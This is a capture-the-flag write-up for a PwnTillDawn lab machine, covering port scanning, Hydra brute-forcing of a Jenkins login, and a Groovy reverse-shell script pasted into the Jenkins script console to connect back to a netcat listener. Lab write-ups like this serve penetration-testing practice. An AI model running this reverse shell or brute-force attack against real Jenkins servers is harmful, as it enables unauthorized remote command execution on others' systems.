 # 10.150.150.38 - PWNTILLDAWN WRITEUP

The following ports were found using rustscan

![](images/rustscan_results.png)

I served the ports to nmap and got found a http site

![](images/nmap_results.png)

It was a jekins login page, i tried the usual default login pairs but none worked.

![](images/jekins_failed_default.png)

After some digging I decided to use hydra to bruteforce it

![](images/hydra_command.png)

We got a hit!

![](images/hydra_success.png)

Inputed the details and we have a dashboard now.

![](images/jekins_dashboard.png)

Looked around and found a flag under the `people` tab

![](images/people.png)

Looked around a bit more and found out i could run scripts here. Found a walkthrough on how to get a shell using "Jekins Groovy Scirpt" here: `https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6`

I pasted the code into the groovy scripts input box 

```
String host="ip";
int port="port";
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

Then started a netcat listener and ran the script

![alt text](image.png)